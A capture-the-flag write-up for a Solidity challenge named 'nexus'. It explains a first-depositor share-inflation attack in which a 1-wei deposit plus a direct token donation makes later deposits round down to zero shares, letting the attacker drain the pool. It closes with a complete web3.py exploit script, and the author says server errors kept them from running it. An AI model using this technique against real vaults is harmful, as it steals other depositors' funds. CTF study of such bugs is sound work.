

# C2C CTF Task : nexus

### Introduction



> I started by looking at how the smart contract calculates crystals. The `essenceTocrystal` function caught my eye because it uses the formula `(essenceAmount * totalCrystals) / amp`. Since Solidity rounds division down to zero, I realized that if I could make the `amp` denominator larger than the numerator, the contract would mint exactly 0 crystals for a deposit.

```sol
    function essenceTocrystal(uint256 essenceAmount) public view returns (uint256) {
        uint256 amp = amplitude();
        if (amp == 0 || totalCrystals == 0) return essenceAmount;
        return (essenceAmount * totalCrystals) / amp;
    }
```

### The Obstacle & Setup Flaw

```sol
    function conductRituals() external {
        require(!ritualsComplete, "Rituals already performed");
        ritualsComplete = true;

        essence.mint(address(this), FIRST_ATTUNEMENT + SECOND_ATTUNEMENT);
        essence.approve(address(nexus), type(uint256).max);

        nexus.attune(FIRST_ATTUNEMENT);
        nexus.attune(SECOND_ATTUNEMENT);
    }
```

> The problem was figuring out how to get the `amp` high enough before the `Setup` contract made its massive 15,000 ether deposits. Looking at the setup logic, I noticed `conductRituals()` was an external function and wasn't automatically called inside the constructor. This meant there was an open window where I could interact with the Nexus and manipulate its state *before* the setup ritual actually happened.

### Setting the Trap

> I needed `totalCrystals` to be tiny but non-zero, and `amp` to be huge. First, I attuned exactly 1 wei of Essence so `totalCrystals` became 1. Then, instead of attuning more, I transferred 6,000 ether directly to the Nexus using a standard ERC20 transfer. This artificially inflated the `amp` (which tracks the contract's token balance) to `6000 ether + 1 wei` without minting any new crystals.

### Stealing the Ritual Deposits


> With the trap set, I finally triggered `setup.conductRituals()`. The Setup contract tried to deposit its first 6,000 ether. The internal math executed as `(6000 ether * 1 wei) / (6000 ether + 1 wei)`. Because the denominator was slightly larger, it rounded down to 0. The exact same thing happened for its next 9,000 ether deposit. The Setup contract essentially dumped 15,000 ether into the pool and got 0 crystals in return!

### Script
> At this point, my 1 wei crystal was the only one in existence, meaning I owned 100% of the crystal supply. I called `nexus.dissolve()` to burn my 1 wei crystal. The contract evaluated my payout against the entire loaded Nexus balance (my 6000 + Setup's 15000). Even after getting hit with the maximum 22% friction fee, I received enough ether back to easily pass the 20,250 target balance required by `isSolved()`

```py
from web3 import Web3

RPC_URL = "RPC_URL"
PRIVKEY = "PRIVATE_KEY"
SETUP_ADDR = Web3.to_checksum_address("SETUP_ADDRESS")

w3 = Web3(Web3.HTTPProvider(RPC_URL))
account = w3.eth.account.from_key(PRIVKEY)
wallet = account.address

setup_abi = [
    {"inputs":[],"name":"nexus","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"essence","outputs":[{"type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"conductRituals","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[],"name":"isSolved","outputs":[{"type":"bool"}],"stateMutability":"view","type":"function"}
]

essence_abi = [
    {"inputs":[{"type":"address"},{"type":"uint256"}],"name":"approve","outputs":[{"type":"bool"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"type":"address"},{"type":"uint256"}],"name":"transfer","outputs":[{"type":"bool"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"type":"address"}],"name":"balanceOf","outputs":[{"type":"uint256"}],"stateMutability":"view","type":"function"}
]

nexus_abi = [
    {"inputs":[{"type":"uint256"}],"name":"attune","outputs":[{"type":"uint256"}],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"type":"uint256"},{"type":"address"}],"name":"dissolve","outputs":[{"type":"uint256"}],"stateMutability":"nonpayable","type":"function"}
]

setup = w3.eth.contract(address=SETUP_ADDR, abi=setup_abi)
nexus = w3.eth.contract(address=setup.functions.nexus().call(), abi=nexus_abi)
essence = w3.eth.contract(address=setup.functions.essence().call(), abi=essence_abi)

def send_tx(tx):
    tx["nonce"] = w3.eth.get_transaction_count(wallet)
    tx["gas"] = 3000000
    tx["gasPrice"] = w3.eth.gas_price
    signed = account.sign_transaction(tx)
    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
    return w3.eth.wait_for_transaction_receipt(tx_hash)

max_uint = 2**256 - 1

send_tx(essence.functions.approve(nexus.address, max_uint).build_transaction({"from": wallet}))
send_tx(nexus.functions.attune(1).build_transaction({"from": wallet}))
send_tx(essence.functions.transfer(nexus.address, w3.to_wei(6000, "ether")).build_transaction({"from": wallet}))
send_tx(setup.functions.conductRituals().build_transaction({"from": wallet}))
send_tx(nexus.functions.dissolve(1, wallet).build_transaction({"from": wallet}))

print(setup.functions.isSolved().call())
```

**NOTE : DUE TO SERVER ERROR, I COULD NOT BE ABLE TO SHOWCASE THE SCRIPT AND GET THE FLAG**

